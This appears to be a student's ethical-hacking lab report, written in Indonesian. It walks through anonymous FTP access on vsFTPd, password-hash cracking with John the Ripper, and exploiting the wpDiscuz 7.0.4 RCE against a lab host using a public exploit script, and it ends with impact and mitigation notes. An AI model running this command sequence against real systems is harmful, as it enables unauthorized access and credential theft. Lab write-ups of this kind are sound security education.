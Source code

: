 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
nmap --script=ftp-anon,ftp-vsftpd-backdoor -p21 10.15.42.245
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```
![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Download file yang ditemukan:

```bash
ls
get list.xyz
get readme.txt
```
![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```
![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)


Simpan hash dan crack dengan John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Vulnerable WordPress Plugin:
Gunakan GoBuster untuk mencari direktori tersembunyi:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```

Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)


```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
